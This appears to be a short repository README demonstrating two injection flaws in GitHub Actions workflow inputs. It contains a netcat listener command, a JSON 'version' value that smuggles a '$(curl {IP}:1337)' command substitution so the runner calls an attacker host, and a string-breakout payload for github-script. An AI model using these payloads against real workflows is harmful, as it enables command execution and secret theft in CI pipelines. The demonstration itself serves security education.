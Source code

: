 # actions-input-security
The repository demonstrates two potential vulnerabilities when using inputs in actions workflows.  

# Exploit 1: Using user input in run commands
Launch a VM in the cloud. Open a publicly accessible port on the VM using `nc -vlnk 0.0.0.0 1337`. 
```
    ```json
    {
        "version": "$(curl {IP}:1337)"
    }
    ```
```

# Exploit 2: Using user input in github-script action
```
    ```json
    {
        "version": "'};console.log('hophophop!!!');//"
    }
    ```
```
